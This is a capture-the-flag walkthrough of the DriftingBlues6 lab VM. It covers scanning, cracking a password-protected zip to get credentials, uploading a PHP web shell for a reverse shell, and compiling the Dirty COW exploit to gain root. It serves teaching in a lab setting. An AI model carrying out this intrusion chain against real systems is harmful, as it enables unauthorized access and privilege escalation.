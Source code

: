 # **Driftingblues6**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/1c7b8528-5391-4ca1-918b-467edb8e82ef)

# **Difficulty = Easy**
***


As usual we run our network discovery scan, discovered `192.168.0.115`

![](https://i.imgur.com/870FsDS.png)


Running our nmap scan we discovered only one port


```bash
# Nmap 7.94 scan initiated Fri Nov 17 03:02:13 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 192.168.0.115
Nmap scan report for driftingblues (192.168.0.115)
Host is up (0.00028s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 17 03:02:27 2023 -- 1 IP address (1 host up) scanned in 13.82 seconds
```


Checking out port `80/HTTP` we have this website, Nothing really 🤪


![](https://i.imgur.com/PjVDr1a.png)


Checking out `/robots.txt` just as nmap as said we have this


![](https://i.imgur.com/481D7iN.png)


Navigating to `/textpattern/txtpattern` we have this login page


![](https://i.imgur.com/WkwNule.png)


As said earlier i decided to run a directory bruteforce with `ffuf` adding the `.zip` extension


![](https://i.imgur.com/Kuvl2Gx.png)



We can then download the zip file directly using the command below



```bash
$ wget 192.168.0.115/spammer.zip
```



When we try to unzip the file, we are asked for a password


![](https://i.imgur.com/TXoobpj.png)

Using a tool called `fcrackzip` we can go ahead and bruteforce the zip file


```bash
$ sudo apt install fcrackzip
$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```


![](https://i.imgur.com/5nXdEHA.png)



We can go ahead and unzip the archive, which gives us `creds.txt`


![](https://i.imgur.com/U4h63Tr.png)


We can go ahead and login to the login page we found earlier


![](https://i.imgur.com/419HKOE.png)



Navigating to the **content** tab and clicking **Files** we where able to upload a PHP web shell



![](https://i.imgur.com/DqDBUKG.png)


Our PHP web shell was uploaded to `/textpattern/files` called `good.php`, you can find one from [www.revshells.com](www.revshells.com)


![](https://i.imgur.com/C40LrEu.png)


Hell yeah, we got reverse shell as user **www-data** (**Hint -:** Use a python payload for stable shell)


![](https://i.imgur.com/h5Gi1fr.png)


Enumerated the box, looking for users, only **www-data** exists, password in config files, SUID, Nothing !!! But running `uname -a` tells us the version of linux we are currently running on -:


![](https://i.imgur.com/zdKEJcq.png)


Unfortunately, this version of linux is vulnerable to the [Dirty cow](https://www.exploit-db.com/exploits/40616) # Race Condition Privilege Escalation exploit, this will be beneficial to us 😁


![](https://i.imgur.com/mM5atFa.png)


Go ahead and copy the code, then create a file name `cowroot.c` and save the file


![](https://i.imgur.com/B7XWtmh.png)



Compile the code using `GCC` with the following command


```bash
$ gcc cowroot.c -o cowroot -pthread
```


![](https://i.imgur.com/eNC4HMx.png)


Now run the code with `./cowroot` and you should be user **root**


![](https://i.imgur.com/5iYl7Gi.png)



GG 👾



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>





